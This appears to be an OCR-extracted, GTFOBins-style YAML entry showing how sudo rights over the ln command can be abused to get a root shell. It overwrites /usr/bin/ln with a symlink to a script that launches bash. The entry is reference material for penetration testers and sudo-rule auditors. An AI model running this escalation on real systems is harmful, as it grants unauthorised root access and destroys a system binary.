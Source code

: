```yaml
---
description: If we have sudo rights to run synlink (ln) we can link bash to ln and run bash as root
functions:
  sudo:
    - code: |
        echo 'bash' > /tmp/bash
        chmod +x /tmp/bash
        sudo /usr/bin/ln -sf /tmp/bash /usr/bin/ln
        sudo /usr/bin/ln
        
---
```

